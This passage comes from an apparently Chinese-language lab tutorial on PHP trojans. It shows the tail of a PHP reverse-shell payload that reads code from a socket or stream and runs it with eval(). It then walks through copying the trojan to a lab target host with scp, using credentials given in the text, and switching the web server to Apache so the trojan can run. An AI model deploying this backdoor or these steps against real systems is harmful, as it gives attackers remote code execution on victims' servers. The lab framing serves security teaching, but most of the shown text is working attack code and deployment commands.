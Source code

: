 ```
    die(); 
} 

$a = unpack("Nlen", $len);
$len = $a['len']; 
$b = ''; 

while (strlen($b) < $len) {

    // 根据类型 stream，或者 socket 调用相应读取数据函数
    switch ($s_type) { 
        case 'stream': $b .= fread($s, $len-strlen($b)); break;
        case 'socket': $b .= socket_read($s, $len-strlen($b)); break; 
    } 
} 

// 保存 $s 值为全局变量
$GLOBALS['msgsock'] = $s;

// 保存 $s_type 类型值为全局变量
$GLOBALS['msgsock_type'] = $s_type;

eval($b);

die();
```

### 4.3 上传到目标靶机

将生成的 PHP 木马文件件上传到实验楼宿主机，也就是实验楼目标靶机，IP 地址为 `192.168.122.1`。一般情况下，查看本机的 ip 地址命令为 `ifconfig`。下面我们将文件进行上传，输入如下命令：

```
# 实验楼环境中，直接上传到目标主机的网站目录下，会显示没有权限，所以先上传到目标主机
# 将木马程序上传到目标主机的 tmp 文件夹下
scp hello.php shiyanlou@192.168.122.1:/tmp
```
其中宿主机的账号名称是 `shiyanlou`，密码也是 `shiyanlou`:

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993526850.png-wm)

实验楼本机 Linux 的环境下，默认开启的是 `nginx` 服务。这里我们先要关掉 `nginx` 服务，开启 `apache` 服务，用以测试 PHP 木马：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993507282.png-wm)

```
# 关闭默认开启的 nginx 服务
sudo service nginx stop

# 开启能够运行 PHP 环境的 apache2 服务
sudo service apache2 start
```
